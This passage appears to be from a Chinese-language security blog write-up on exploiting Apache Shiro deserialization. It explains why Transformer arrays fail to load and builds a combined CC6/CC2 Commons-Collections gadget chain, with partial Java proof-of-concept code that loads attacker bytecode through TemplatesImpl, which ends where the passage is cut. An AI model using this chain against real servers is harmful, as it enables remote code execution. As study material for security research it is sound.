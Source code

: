 ![image-20240712110101346](https://s2.loli.net/2024/07/12/kx7BTsziOI3r51y.png)

![image-20240712110132966](https://s2.loli.net/2024/07/12/tln8IBzkGOs9Uac.png)

这个流程和URLClassLoader的相似

![image-20240712110305723](https://s2.loli.net/2024/07/12/YRQVKpTyvm62u3U.png)

抛出异常是因为我们传入的name（要查找的类名）是[Lorg.apache.commons.collections.Transformer;经过处理转换成查找路径是

![image-20240712110801248](https://s2.loli.net/2024/07/12/AEV6RbL4vCQTY1o.png)

这个路径肯定是找不到Transformer数组类的。

**所以Poc里面不能出现数组类**

**但是要看这个数组类是在哪引入的，如果是JDK的数组类，那么在Tomcat中会调用Class.forName。这是能加载的。**

如果不重写resolveClass，反序列化是通过Class.forName寻找类的，可以找到数组类。

### 延伸

[Class.forName vs ClassLoader.loadClass](https://www.jianshu.com/p/e1a7dc749196)

这里提到的

1）Class.forName会解析数组类型，如`[Ljava.lang.String;`
2）ClassLoader不会解析数组类型，加载时会抛出ClassNotFoundException;

是因为ClassLoader.findClass时，和上面一样拿到的路径是不正确的。

### 解决问题

在之前CC CB链的学习中，我们知道CC2可以不用Transformer数组。（因为CC2不用使用ConstantTransformer(Runtime.class)控制传值，传值可以使用PriorityQueue的add；而且只实例化一个InvokerTransformer就行）

而上面打CC3我们用CC6也是因为CC6可以控制传值不使用ConstantTransformer(Runtime.class)。[CC6利用链分析](https://blog.csdn.net/weixin_45436292/article/details/140358825?spm=1001.2014.3001.5501)

所以这里考虑CC6前半个链结合CC2的后半个链（动态加载类）

更新Poc

```java
public class CC3_shiro_exp {
    public static void main(String[] args) throws Exception {
        //CC3
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Test.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "pass");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        
        //CC2
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);

        //CC6
        Map lazyMap = LazyMap.decorate(new HashMap(), invokerTransformer);
```